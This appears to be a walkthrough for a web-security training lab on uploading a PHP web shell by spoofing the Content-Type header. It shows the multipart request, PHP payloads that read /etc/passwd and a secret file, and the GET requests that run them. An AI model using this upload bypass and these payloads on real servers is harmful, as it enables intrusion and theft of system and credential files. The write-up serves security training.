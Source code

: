 # Web shell upload via Content-Type restriction bypass

## This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

upload an image
and try to upload a php extension file it will not upload
so go to burpsuite
go to image upload url request send to repeater

POST /my-account/avatar HTTP/1.1
delete image data

change file name to test.php
meme.jpg to test.php
and write a php code for retrive passwd file

<?php echo file_get_contents('/etc/passwd'); ?>

------WebKitFormBoundaryWyoaXbBkmlSFjFw0
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd'); ?>

------WebKitFormBoundaryWyoaXbBkmlSFjFw0
Content-Disposition: form-data; name="user

it will succesfully uploaded

### step2

GET /files/avatars/meme.jpg HTTP/1.1
change to test .php
and send request

GET /files/avatars/test.php HTTP/1.1

you will get all passwd file

now do ### step1 for secret code

<?php echo file_get_contents('/home/carlos/secret'); ?>

![screenshot](./images/lab2_change_file_name_and_php_code.png)

and ### step2
send get request for test.php file

![screenshot](./images/lab2_get_request_test_php_file.png)
